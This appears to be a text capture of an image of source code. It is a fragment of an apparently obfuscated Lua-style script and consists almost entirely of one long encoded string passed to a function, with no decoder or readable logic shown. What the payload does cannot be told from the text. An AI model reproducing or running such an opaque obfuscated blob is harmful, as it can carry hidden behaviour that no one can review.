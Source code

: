 C.concat(a)end)("AAFAFCAAFAAAAFDAADA@WAFDAFQAAFA@@AAFAAEAFRAAFAB_AFWAFCACGAFZAAFAE^AFDAFVAF`AFDAAYAFQAFFAFCA@]A@PA@H@iA@EAAFAA@AFDA@^A@]A@_A@A@gA@CAAFAACAFDA@HA@AA@]AAFAABAGTA@XA@]AGAAGYAFCA@GA@BA@PA@_AGRAGDA@\\A@HAGBAFDA@G@f@gA@GA@PAGWAGCAFCAGHA@^A@EA@_AGWAG^AAF@hAHCA@BAFEAFD@iA@FA@EA@YA@aAAFAA?AFDA@CA@EA@]A@DA@E@gA@[AGXAFD@V@P@@@_AAFA@eAGDAHc@hAHcAHCAFiAG@AGhAFCAHHAG@A@GAHDAFDA@\\@gA@aA@PA@GA@?AAFA@iAFDA@]AH@A@\\@hA@HAHPAFXAASAFC@T@P@^@T@RA@G@T@H@QAQEA@HAQE@VAQHAQQAQFAQB@U@T@Q@WAQB@PAQ[@]AQH@HAQH@FAQB@TAQ[AQ]@Q@_AQYAQH@`AQVAQ[@YAQhAQ[@cAQ[@[AQRAQE@ZAQdAQBARP@PAQ_@PAQe@Q@aARG@QARU@QARRAR`ARS@RA@PARV@PA@CAQB@d@T@SAS?@P@bAQBABCAQ[ARg@RAQSASCARV@RARC@Q@XAQE@RAQEARC@RARP@R@eASPAQ[ASY@RAR^ASXAR_ASQ@GAQEAT?AS`AQEAQe@RASAARdARd@RAT?AQ\\AQEAQWASAAS^ASZ@T@FASHASVATSAS\\AT]@QA@QAReASY@GAS[ASEAQEASa@QAS?@H@SAQHAU@@QARF@QAQa@PAQa@GAQZ@HAT?AQPAQBAQDATR@PAQc@HAR^@RAUYAR\\AQD@PAQZAU`AQBAQQARYAQEAQc@SARFAUhAQHA@BAQ^ASBASY@QASF@PASH@FAQiARPAR]AQBAUgAVDASWARRAUbAV?AUC@T@eARXAT`AUEARQAQ[A@DAQEAQgASg@eATAASH@PAVDASfASWARU@PAV_ASFAR?AQ[ASWAQa@SAVXAQe@PAU@@PAR@AVS@QAVcASgAW?AScAQBAR^@PAQS@PAVRAQ]ASRATXARgAUT@FAQG@FA@EATXAS?@FA@AAV\\AQZ@eAU@@eAUdAQc@eAXTAQe@eASA@eASF@eARCAUb@eAQD@e@\\AV\\ARU@eASY@HAW[AR^@dARg@QARg@eAV_ARUAWRAQ[AV_AT`@PAUDAQ]@PAXB@PAXFAYAAQ[AWCATiAYSARF@FAQe@HAR\\AWdAV\\AQa@eAUDASF@HAXFAUXARS@QASAAY`ASBARF@PAR^AXaAQBAS?ARbAVBAUb@GAQQ@dAXF@eARg@SASYAUbAThAQHARR@FASaAUTAUeAT_AVTAQ[AR@@PAZVAYBAQaAWZ@TAT?ARVAWGAZdAVDAWXAYgAT`@HAQSAZcAQcAZR@HAVA@bAQa@bARR@HAWhAR\\AWEAV\\AV_ARR@bAQiASdAQS@RAXb@bA@F@T@bAVcAXXA\\BAXF@bAVAAZR@QASWA[RAT`@bAS[AQXAUGAV\\ARPAQcA\\BAVAAWUAZg@T@aASaAWf@RA[RAY_AQZAVEAR_AVcA\\HAVBA\\dARFAZCATe@FA\\AAZiA\\aAZhAQc@aAQa@aARR@RAQD@FAQS@aA\\^A\\UAYSATdASH@cA\\A@HARR@aARF@bAVDARR@`AQe@`ATUA[hA]cAWTAQ_A[BA\\RAQHARUAQX@dAW`AQQ@cAR^AUTA\\CAXGARA@bATQASWARF@aARU@aAVcA]\\A\\aA^XAVXARP@`AZVARC@FAVA@eA^XAXb@QAQD@GAQeAZ[AYGAQ[ASfARPAVZARaAYSAVeAR@@cAQZ@bAQ_A^]A\\BASaAUeAV?@PAXb@eAS[@aAT?AXZA\\BAQ]A[\\AQHARPA]bAZDA\\aAQUAUbA^B@T@_AUVAW`AVeARC@`A\\AARdAV?@cAR@@eAXB@dAXb@dASaAYF@_AQ_@FAVc@_AT?AZdARaAUFA[]AUaA_VAVXAQQA_PAV\\A`ZAT`@^ASF@dAXdA`?ASaAV]@T@^ASHAWGAYXAZ?AVPAVbAa[ASFA\\dA^?A[dAQc@bAQeAY?A`SA^RAQS@`AS[AZcA]gAQiAQ]AQDAQBA_CAXBARd@^AQWA[hAQ]ATcAQHA\\?AQS@bARFAQXA\\\\AaPARi@T@]AWhAT`@GAU@AUTAXgAV@A\\]A\\BAQGAUT@cATFARg@]ARcAWCA\\hAQD@RAXBAZCAZCARd@PARU@`AQ]A\\\\Aa^AXF@HAT`@]AQUAZcAVcAQCA\\`@QAS_A`XA[hAQGAW\\AQc@_AX]ATgAVDAZ\\AQ_AaZ@\\ASF@\\AR^AST@UASAAcZ@T@[AS[AdUARA@\\AQD@`AadAQG@PAagAab@^A[TAQ_@\\ASdAddAZQAUVA[]AQU@aA^EAQBA`?AXB@\\ARg@\\ARcARR@cARg@bASF@FA^RAddAWXAX]Aa]ARP@_ASHAUT@[ASDAUDA^XAXF@`AQaAZC@ZAQZ@FARR@[AWhAQa@`ASY@\\ASH@[AR^@GAeRAQc@ZASA@ZAdQAXbAc\\ARWA`SAR^AfQ@TAd^@\\AQQ@ZA_FAWCAVRARC@^A\\UAU@@ZAg@Aa[AQgAZ?ASTAefAUf@T@ZAQWAddAeDA[CAZ\\Aa]AYgA]eAcVAQQ@aAbHA\\aATgA`U@T@cARR@\\AS[@QAfgAVRAY[AUcA\\BA]WAUgAZQAQiAZEASfAQDAU?AchAfAAedAQZA_RA_R@YAa@Af[AU@A]A@aAXb@ZA]HAXb@[AddAQ_@[ATbAQZ@]AUYAUdARRAfWAQBAgZATXA\\AAYCAZ@AbEAQe@_AU@@YAQQAZHAST@SA`PAXWAbTAUFAh]A\\^A_]AWXARR@SAQ]AhaAgeAQQA\\iAihARg@YAXbAUZAgeAc]AQQ@XA\\AAgR@XAS?@dAcfAQZ@aAQUAa_AQ_@WAQc@XAXbA\\XARFAhgA_SAV`@XAXBAeZAbdAU[AddASWAZGAXBAST@\\A\\UAdQAT?@XAfAAQe@aAR@A`CAZe@cAVc@GAQ]@[AY_AQeAgTAVdAReAc`AQeAXbAgeARU@GAUYA_VAS?@VB@@aASHAST@]AXB@cAU@A`F@bAQD@YAWFAWFAVcAQX@[ASF@ZAQGAd^@VAU[AQ_AZCB@AWA\\aAS_A[TAQe@[A[dA^XAUdASA@dAZQAWXASYB@?dB@A`AbdAS?@WARUAcaAd[B@ASAT?ARFA`SA\\AAieAcgAVGAbdAQg@WAS[AiHB@A[AUTASTAdZ@`B@?AAQe@YAR@Ad^A@PAUQAQe@GAS_AQGB@B^@TB@C?A@QAQeA@QAZbA^AA_FAY_AQQAccAd[AQeA@PAS]AQGB@CQA@PA\\cB@AUASHAbhAQHAQSB@CBAfdAadAQU@SB@@]@TA@PAT`AQXAZAATfB@CeASYA@PA[]AR\\B@CSARCB@CQAURAfdB@@hARgA@PAT?A@HAQZA@PASAA@QAUSAR\\AU]AbdA__A\\A@WAdBAQa@dAb]ASF@aAebASY@]ASaA@HA^?AQ]@_AR^@ZASa@WAYPAW`AZhAWbAYPAYiAWSAf`AcgA@HAR@AZcAQgA_`AbQ@bARgA@QA]DB@B`ASa@cAeRAS?B@?dA@PAU@@^Aa@AT`A@HB@AhASaAf_A[ZAV\\ARgAf_A@HA\\AA@HB@APA[hB@@F@TA@GAYSAYPAVFAVAA@GAUaAYPAWTA_bARFB@FQB@FWAQg@RASHA@GAQS@XA\\DAiGAVc@VARgAZ]AR^@YAVcASTARdA@QB@AgA\\aAQcB@BHB@@bB@FWAcfAQDAhXAS?Ag`A\\BAQUARRASBB@EfB@@VAgHAhWATiAXbB@B\\AViAdQAbTAUiAZQAR^A@QAQGASTAZWAZ_AQEAR@B@Fh@TAPhAQBAYPARXAdYAZEASa@FAX]AZhAZEAS?AWfA@PB@?\\AQG@WA[[AR@AH[A\\aAXWAT?A[e@T@VASA@[AT`Af\\@TA@EASaA@EARPA@HB@F\\B@FgAQgAR^AgTAVDAVcB@HgAUeA@EA`PAUBAQ]@eA\\AAUPB@PGARUB@Hd@T@WAQSAZR@WA\\AB@B\\B@?AA[[AiBAQZA@EAT?@\\B@P`AW[AgAAigARCASTA]A@\\AS?@cARFB@EhAQHAW[AT`A@DB@BGA]UARgB@QZAd[AYiAR^Ah_B@PgAR^A@FAQQA@DAUBB@FAAWQAS?@GB@AhAXb@GASH@YAXBAhZAQHA`PARZAQ_@YAS?A@GB@CCAVA@ZAUSAXFA@CAR^B@BcB@Cd@QB@CYB@CeASAA@PAQ_@SARUA@CAQGA@CAS?B@C_ARfASBAQUAQXAdSAbdAQUA@CA\\AAP^B@CeARPB@C_B@Ci@PAT?AVA@TA@BAZBAR\\AQ_B@SEB@C`B@SfASTA@CAVcB@SSB@C_B@C?@SAXBB@C\\B@SSAZa@TB@C_B@DHA@BB@AYAQQA@BB@CgAQGA@BAQGB@ChASHB@SeA@BASHB@SaB@PGB@S^AQQA@PA]cAQQA@AAU@A@PAS?A@BASaA@BB@EYAR\\ASA@VAXbA@AAZbAigATUARPB@T_B@B?A@PASFB@SeA@AARCAc?AT?A@QB@TiAZBAT?B@SVB@S`B@PCB@CSAQcB@UGAgTAQaA@AAQGA@AB@BCAQQB@U\\@TA@AAXBB@T_A@QAQZA@BARRB@Se@[AXFAQXATE@TB@T\\AQaB@T_A@BAe]B@GaAa[ARCB@UeA[SB@CeAVAA@BB@APB@HcB@TVAT\\A@AAT`B@T_B@SH@RAU@B@T_@^B@V_AiQ@S@UABCB@TdAQEB@VHB@PRATDASF@SAQSB@T_B@TG@aAXB@R@bB@WHABCATZB@BiAS[B@QGB@WH@UAQcB@T_B@PWAHBB@VCARRA@PAQQ@WB@UYAT?A@EARUA@PB@WhAS[A@HB@CSB@URAU@A@HASHB@DUB@HSAbhB@WPAg^B@WfB@WYAVcA@AAgVASBAT`B@SEB@W`AXbB@CQ@QB@QHAR^A@HAT?B@B^B@WfARFA@BA@CB@W`B@CSASAA@CAQSAFiB@CeAQ_@RAQeA@AAVA@c@WB@W`AQgB@SSB@YSB@WfAQaAQX@YAQUA@QAVAA@PAR@B@Se@XAQSB@XEA[CB@XW@aB@WH@TASYA@QB@T[AS?B@XCB@W`A[]B@X\\ABCB@WBB@WPARRA@HASAA@HB@UYB@A_AXF@]ASF@`ARRAaZ@bB@?cAb?AXFAaaB@PcB@YSAbdB@?hAhCAWGB@GCAZP@TA@FB@HXAaQAUcB@WH@SAdYAQcAUPB@WfARPAfhB@V]AhSA[W@^B@[UAT`@VAQU@WB@@hAeCB@PAAQiAY@A]eAT?ASTB@ECB@[UAQDA@FAQeB@[QAabA@EAiTB@ZY@S@FB@[UAc]B@YH@U@SAT`A@AB@SQAVFARUAdUB@W`ARUA@AAdYAiSB@\\Y@SB@WH@RARFA@AA@HB@\\h@YB@W`B@AA@UAQXB@U`B@ZCA@PARgB@\\cB@WfB@X\\@UAhRAQQB@YDB@WPAQcA@PAS[A@AB@TfB@]FA@QB@ZUAQHB@?XAVAA@FA@GB@\\h@`B@[U@VB@[UAYgAQeB@R_B@\\hAR\\AYEB@\\XAYFASCB@[UB@]CB@\\YAXPB@]FB@[`B@\\YA[_B@ZH@ZB@[UA@FB@[UB@RBB@\\YB@]EB@CcAV\\B@^_@RB@\\YB@]FB@\\gB@]FB@RAB@]aB@]FB@X\\@S@]B@WHAV`A@FA`dB@\\XATVA@EB@ZYAciB@_EB@Y]B@]F@\\B@\\hB@\\_AR^B@EGAQ[@dB@\\hAcdAWUB@]FB@\\QB@]FAQGB@]aB@_EB@_aAWWB@VCB@YFB@]iB@]FAXFB@